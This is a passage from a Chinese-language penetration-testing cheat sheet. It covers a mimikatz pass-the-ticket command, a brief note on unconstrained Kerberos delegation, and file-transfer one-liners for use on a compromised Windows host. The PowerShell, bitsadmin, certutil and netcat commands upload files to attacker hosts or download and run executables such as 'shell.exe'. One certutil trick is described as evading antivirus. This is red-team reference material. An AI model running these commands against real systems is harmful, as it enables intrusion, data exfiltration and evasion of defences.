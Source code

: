 ```
kerberos::ptt xxx.kirbi
```

![image-20210116105528377](C:\Users\Rainbow\AppData\Roaming\Typora\typora-user-images\image-20210116105528377.png)

#### 约束委派攻击

非约束性委派（Unconstrained Delegation），服务账号可以获取某用户的TGT，**从而服务账号可使用该TGT**，模拟用户访问任意服务



## 文件传输

### powershell

```
# 文件上传
powershell (New-Object System.Net.WebClient).UploadFile('http://10.11.0.4/upload.php', 'important.docx')

# 文件下载
powershell -exec bypass -c (new-object System.Net.WebClient).DownloadFile('http://192.168.111.1:8080/test/putty.exe','C:\Users\linghuchong\Desktop\Tools\putty1.exe')
putty1.exe
```

### bitsadmin

```
bitsadmin /transfer n http://domain/file c:\windows\temp\shell.exe
```

### certutil

```
certutil.exe -urlcache -split -f http://192.168.111.1:8080/test/putty.exe
certutil.exe -urlcache -split -f http://192.168.111.1:8080/test/putty.exe delete  #删除缓存
putty.exe
```

可以实现绕过杀软

```
# 编码要上传的exe到txt格式
CertUtil -encode frpc.exe frpc.txt
# 下载txt文件
certutil.exe -urlcache -split -f frpc.txt的地址
# 将txt文件编码成exe文件
CertUtil -decode frpc.txt frpc.exe
```

### nc

```
nc -lvvp 8888 > fileName
nc 1.1.1.1 8888 < fileName
```
